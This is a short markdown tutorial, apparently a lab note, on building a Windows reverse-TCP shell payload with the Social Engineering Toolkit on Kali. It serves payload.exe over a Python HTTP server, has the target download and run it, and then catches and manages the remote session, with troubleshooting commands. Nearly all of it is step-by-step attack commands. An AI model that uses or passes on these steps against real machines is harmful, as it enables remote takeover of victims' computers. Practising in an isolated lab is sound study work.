 ## Creating Payload usng Social Enginerring Toolkit

### Step 1 ( open social engineerring toolkit )

```shell

## open app ( social engineering toolkit (root) )

1 # option # Social-Engineering Attacks

4 # option # Create a Payload and Listener

1 # option # windows Shell Reverse TCP

*ip_address_kali # ip address of your computer (kali) # ifconfig # ip addr show # hostname -I

*port_number # type unused port in your computer (kali)

```

### Step 2 ( find my payload )

```shell

# open new terminal and type this

cd /root/.set/

ls

==========
payload.exe
==========

```


### Step 3 ( Creating server )

```shell

python3 -m http.server --bind *ip_address_kali

# 1. copy link 
# 2. past it in windows machine 
# 3. download the payload.exe 

```

### Step 4 ( listening to the windows machine )

```shell

# back to the social engineering toolkit

yes # option # to start the payload listening

# stop this server that you create using python

# go the windows machine and run payload.exe

sessions -l

dir

```

### Step 5 ( problem )

```shell

# if you have problem with session ( not found session ) solution is

## 1. run the file as administrator

## 2. stop this server that you run it using python

## 3. using this command to start the listenning again

exploit -j -z

```

### Step 6 ( removing file and folder )

```shell

rmdir folder_name

rm -rf folder_name

```
